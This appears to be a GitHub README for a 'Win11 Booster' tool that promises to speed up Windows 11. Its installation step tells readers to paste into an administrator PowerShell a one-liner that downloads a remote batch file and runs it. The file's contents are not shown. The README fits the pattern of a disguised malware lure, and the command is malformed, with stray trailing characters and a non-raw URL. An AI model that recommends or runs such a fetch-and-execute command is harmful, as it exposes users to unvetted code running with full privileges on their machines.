 # Win11 Booster

This repository contains a script to boost the performance of Windows 11 using a set of PowerShell and Python commands. The script installs necessary packages, creates directories, and downloads a Python script to enhance your Windows 11 experience.

## Installation

To use the Win11 Booster script, follow the steps below:

1. Open PowerShell as an administrator.

2. Run the following command to start installation 

    ```powershell
    mkdir C:\Users\Booster ; Invoke-WebRequest -Uri 'https://github.com/Scuttlang/Win11-Booster/blob/main/installer.bat' -OutFile 'C:\Users\Booster\installer.bat' ; Start-Process -FilePath 'C:\Users\Booster\installer.bat' -Wait}"
    ```

## Description

The Win11 Booster script automates the process of optimizing your Windows 11 system for enhanced performance. It registers the Desktop App Installer, installs Python 3.11, creates a designated directory, and downloads a Python script to apply performance optimizations.

**Note**: Ensure that you run PowerShell as an administrator to execute the commands successfully.

Feel free to contribute to this repository and customize the script according to your needs.

Happy boosting!


[![My Skills](https://skillicons.dev/icons?i=py,vscode,powershell&perline=3)](https://skillicons.dev)
